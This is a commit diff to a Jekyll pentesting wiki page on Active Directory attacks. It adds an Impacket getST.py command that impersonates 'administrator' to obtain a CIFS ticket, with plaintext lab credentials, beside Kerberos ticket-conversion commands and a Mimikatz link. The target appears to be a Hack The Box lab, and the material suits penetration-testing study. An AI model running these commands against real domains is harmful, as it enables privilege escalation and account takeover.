

Before and after one commit to qwutony/qwutony.github.io, a Jekyll site: the page built from _wiki/003-active-directory-penetration-testing.md, in a window 1280 px wide and 900 px high, scrolled down 5383 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded.

Commit message:
Update 003-active-directory-penetration-testing.md

````diff
--- a/_wiki/003-active-directory-penetration-testing.md
+++ b/_wiki/003-active-directory-penetration-testing.md
@@ -240,6 +240,10 @@ base64 -d ticket.kirbi.b64 > ticket.kirbi
 ticketConverter.py cifs.kirbi cifs.ccache
 export KRB5CCNAME=cifs.ccache
 sudo apt-get install krb5-user
+
+OR
+
+getST.py -spn "cifs/dc.painters.htb" -impersonate "administrator" "painters/blake:Password123\!" -dc-ip 192.168.110.55
 ```
 
 **[Mimikatz](https://github.com/gentilkiwi/mimikatz/releases)**
````
